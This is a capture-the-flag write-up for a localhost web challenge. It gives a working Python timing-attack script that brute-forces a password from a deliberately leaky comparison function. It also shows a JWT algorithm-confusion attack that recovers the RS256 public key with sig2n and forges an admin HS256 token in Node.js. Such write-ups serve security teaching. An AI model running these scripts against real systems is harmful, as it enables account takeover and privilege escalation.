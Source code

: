 # Cryptographic Attack Documentation: Time Leak & JWT Algorithm Confusion

## Overview
This document details a two-part attack on a web application involving:
1. A timing attack to brute-force a password
2. A JWT algorithm confusion attack to escalate privileges

## Part 1: Timing Attack for Password Brute-force

### Vulnerability Analysis
The application uses an insecure password comparison function:
```python
def is_equal(a, b):
    for i in range(min(len(a), len(b))):
        if a[i] != b[i]:
            return False
        sleep(0.02)  # Time leak vulnerability
        
    if len(a) != len(b):
        return False
    return True
```

### Attack Methodology
1. **Observation**: Each correct character comparison adds 20ms to response time
2. **Strategy**: Test characters sequentially, measuring response times
3. **Implementation**:

```python
import requests
from string import printable
from time import sleep

site = "http://127.0.0.1:1337/login"
username = "spark"
password = ''
session = requests.Session()

def get_password():
    password = ''
    while True:
        for char in printable:
            test_pass = password + char
            payload = {
                'username': username,
                'password': test_pass
            }
            response = session.post(site, data=payload)
            time = response.elapsed.total_seconds()
            
            # If response time indicates more correct characters
            if time > (0.02) * len(test_pass):
                password += char
                print(f"Current progress: {password}")
                break
        else:
            print(f"Final password: {password}")
            return password
```

### Results
- Discovered password: `BHLOUS6969`
- Obtained valid JWT token after successful login

## Part 2: JWT Algorithm Confusion Attack

### Vulnerability Analysis
The JWT verification is vulnerable due to:
```python
decoded = jwt.decode(token, PUBLIC_KEY, algorithms=['RS256', 'HS256'])
```
- Accepts both RS256 (asymmetric) and HS256 (symmetric) algorithms
- Allows potential algorithm substitution

### Attack Steps

#### Step 1: Gather Materials
1. Obtain two valid JWT tokens:
```python
password = 'BHLOUS6969'
session.post(site, data={'username': username, 'password': password})
token1 = session.cookies.get_dict()['token']
sleep(5)
session.post(site, data={'username': username, 'password': password})
token2 = session.cookies.get_dict()['token']
```

#### Step 2: Derive Public Key
Using the `sig2n` tool:
```bash
docker run --rm -it portswigger/sig2n <token1> <token2>
```
Output provided two potential public keys in x509 and pkcs1 formats.

#### Step 3: Forge Admin Token
Using Node.js to create a malicious token:
```js
const jwt = require('jsonwebtoken');
const fs = require('fs');

const publicKey = fs.readFileSync('./public.pem');

const payload = {
    username: 'admin',
    role: 'admin',
    exp: Math.floor(Date.now() / 1000) + 3600  // 1 hour expiration
};

const token = jwt.sign(payload, publicKey, { 
    algorithm: 'HS256',
    noTimestamp: true
});

console.log("Forged token:", token);
```

### Final Exploitation
1. Inject forged token into session cookie
2. Access admin endpoint to retrieve flag

## Results
Successfully obtained flag: **CyberSphere{5de38922ba3c8fac6a116b81ef460695}**
